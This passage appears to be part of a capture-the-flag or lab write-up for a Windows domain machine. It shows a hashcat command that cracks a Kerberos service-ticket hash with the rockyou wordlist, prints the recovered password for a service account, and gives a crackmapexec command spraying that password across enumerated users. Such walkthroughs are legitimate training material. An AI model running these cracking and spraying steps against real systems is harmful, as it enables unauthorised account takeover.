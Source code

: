 ![](<../../../.gitbook/assets/image (633).png>)

Using hashcat on mode 13100 we are able to soon crack the hash with the `rockyou.txt` wordlist.

```
hashcat -a 0 -m 13100 hash.hash /usr/share/wordlists/rockyou.txt 
```

![](<../../../.gitbook/assets/image (808).png>)

Credentials:`web_svc:@3ONEmillionbaby`

### Password Spraying

I tested for some timed with the web\_svc account and was unable to progress anywhere meaningful. Spraying the password against all known uses (who have been enumerated with valid credentials) we get a hit for _edgar.jacobs_.

```
crackmapexec smb '10.10.11.129' -u ~/Desktop/users -p '@3ONEmillionbaby' --continue-on-success
```

![](<../../../.gitbook/assets/image (653).png>)

